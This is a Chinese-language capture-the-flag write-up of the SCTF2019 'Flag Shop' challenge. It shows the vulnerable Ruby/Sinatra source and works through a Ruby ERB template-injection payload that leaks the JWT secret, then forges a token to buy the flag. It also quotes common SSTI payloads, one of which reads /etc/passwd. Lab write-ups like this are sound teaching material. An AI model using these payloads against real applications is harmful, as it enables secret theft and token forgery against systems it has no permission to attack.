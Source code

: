 # [SCTF2019]Flag Shop

## 知识点

`jwt`

`ruby EBR`

`SSTI`

## 解题

![](./img/[SCTF2019]Flag Shop-1.png)

`work`可以获得钱，但是太少，看了`cookie`，发现是`jwt`，解密一下

![](./img/[SCTF2019]Flag Shop-2.png)

![](./img/[SCTF2019]Flag Shop-3.png)

发现有`jkl`代表钱，但是需要破解`secret`，用了`c-jwt-crack`和`字典破解`发现都没有找到，说明应该不是直接破解，找找其他的地方

在`robots.txt`找到了个路径`/filebak`,进入路径后发现`ruby`代码

![](./img/[SCTF2019]Flag Shop-4.png)

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

在这里存在`ssti`

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

`ruby EBR`漏洞格式是`<%=%>`已经占了`5`个字符，这里要求`7`个字符。

常用的`payload`是

```ruby
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

这里利用`ruby`的[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)，只用两个字符

> `$'` The string to the right of the last successful match. 最后一次成功匹配的右侧的字符串

按照代码构造`payload`

```
/work?SECRET=&name=<%=$'%>&do=<%=$'%> is working
//urlencode
work?SECRET=&name=%3C%25%3D%24'%25%3E&do=%3C%25%3D%24'%25%3E%20is%20working
```

![](./img/[SCTF2019]Flag Shop-5.png)

用获取到的这个`secret`加密

![](./img/[SCTF2019]Flag Shop-6.png)

将这个`secret`用来加密，修改金额

![](./img/[SCTF2019]Flag Shop-7.png)

然后就可以进行购买

![](./img/[SCTF2019]Flag Shop-8.png)

![](./img/[SCTF2019]Flag Shop-9.png)

最后用`jwt`解密

![](./img/[SCTF2019]Flag Shop-10.png)

[参考文章](https://syunaht.com/p/1841453998.html)